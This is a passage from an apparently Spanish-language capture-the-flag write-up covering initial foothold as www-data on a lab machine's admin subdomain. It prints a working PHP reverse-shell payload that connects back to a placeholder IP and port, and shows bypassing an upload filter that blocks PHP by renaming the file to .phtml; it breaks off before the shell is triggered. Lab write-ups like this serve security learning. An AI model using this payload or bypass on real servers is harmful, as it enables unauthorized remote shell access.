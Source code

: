 Lo guardamos e ingresaremos en dicho dominio.

```
URL = http://admin.crosswords.5eek3r.dl/
```

Vemos lo siguiente:

<figure><img src="../../.gitbook/assets/image (179) (1).png" alt=""><figcaption></figcaption></figure>

## Escalate user www-data

Vemos que parece que nos deja subir un archivo en el propio directorio de donde esta la pagina web subida, por lo que intentaremos subir un archivo `.php` para crearnos una `reverse shell`.

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Ahora le daremos a `Subir...` y seleccionaremos nuestro archivo `shell.php`, pero si lo intentamos nos pondra lo siguiente:

```
No se permiten archivos PHP, solo HTML.
```

Por lo que haremos un `Bypass` con la extension de `PHP`, para mas informacion me fui a esta pagina:

URL = [Info Bypass Extensions](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)

Moveremos nuestro archivo `shell.php` a una extension llamada `phtml` de la siguiente forma:

```shell
mv shell.php shell.phtml
```

Y ahora lo volveremos a subir y veremos el siguiente mensaje:

```
Archivo subido con éxito: shell.phtml
```

Por lo que nos iremos a la siguiente `URL` de esta forma:
